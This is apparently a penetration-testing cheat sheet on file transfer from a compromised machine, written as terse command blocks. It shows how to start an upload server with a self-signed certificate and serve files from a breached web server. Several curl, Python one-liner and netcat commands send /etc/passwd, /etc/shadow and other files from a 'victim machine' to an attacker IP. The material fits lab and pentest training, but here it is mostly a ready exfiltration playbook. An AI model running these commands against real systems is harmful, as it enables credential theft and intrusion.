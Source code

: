 # Upload Operations
## Start Web Server
```
sudo python3 -m pip install --user uploadserver
```
## Create a Self-Signed Certificate
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server’
```
## Start Web Server
```
mkdir https && cd https
```
```
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
## Linux - Upload Multiple Files
```
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
We used the option --insecure because we used a self-signed certificate that we trust.
## Alternative Web File Transfer Method
if the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page,
### Linux - Creating a Web Server with Python3
```
python3 -m http.server
```
### Linux - Creating a Web Server with Python2.7
```
python2.7 -m SimpleHTTPServer
```
### Linux - Creating a Web Server with PHP
```
php -S 0.0.0.0:8000
```
### Linux - Creating a Web Server with Ruby
```
ruby -run -ehttpd . -p8000
```
### Download the File from the Target Machine onto the Pwnbox
```
wget TargetIP:8000/filetotransfer.txt
```
## Upload Operations using Python3
### Starting the Python uploadserver Module
```
python3 -m uploadserver 
```
### Uploading a File Using a Python One-liner
```
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
## Netcat
### Victim machine
```
nc <attackerip> 9001 < <filetotransfer>
```
### Attacker's machine
```
nc -lvnp 9001 > <nameoftransferredfile>
```